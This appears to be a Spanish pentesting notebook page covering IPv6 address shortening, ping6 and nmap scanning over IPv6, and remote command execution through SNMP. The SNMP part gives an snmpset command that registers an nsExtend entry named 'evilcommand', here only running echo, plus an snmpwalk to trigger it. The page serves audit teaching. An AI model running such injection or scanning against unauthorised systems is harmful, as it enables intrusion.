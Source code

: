 ## dead:beef:0000:0000:0250:56ff:feb9:97ef

Y una vez tengamos el formato correcto de la IPv6 es importante tener en cuenta que los '0' se pueden eliminar:

## dead:beef::250:56ff:feb9:97ef

Una vez tengamos la IPv6 podríamos hacer uso de herramientas como **ping6** para ver si existe traza con dicha IP. 

```bash
ping6 -c 1 dead:beef::250:56ff:feb9:97ef
```

De esta manera podríamos realizar un escaneo con [[Nmap]] por IPv6 y ver si los puertos son distintos. 

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -6 dead:beef::250:56ff:feb9:97ef -oG allPortsv6
```

#### Para acceder a recursos hosteados desde el navegador desde ipv6, deberíamos hacer uso de los corchetes: \[ dead:beef::250:56ff:feb9:97ef \] 

----
# [[RCE - (Remote Command Execution)]] vía SNMP 

Como sabemos, de cara a una auditoría lo que siempre buscamos es un escenario en el cual contemos con [[RCE - (Remote Command Execution)]], en este caso existen potenciables maneras de lograr esta abusando de SNMP. 

## Inyectar un comando malicioso. 

Podríamos intentar inyectar un comando de la siguiente manera: 

```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c {community_string} {target_ip} \
    'nsExtendStatus."evilcommand"'  = createAndGo \
    'nsExtendCommand."evilcommand"' = /bin/echo \
    'nsExtendArgs."evilcommand"'    = 'hello world'
```

En caso de que logremos inyectar el comando de manera exitosa, podríamos ver la ejecución de este:

```bash
snmpwalk -v2c -c {community_string} {target_ip} NET-SNMP-EXTEND-MIB::nsExtendObjects
```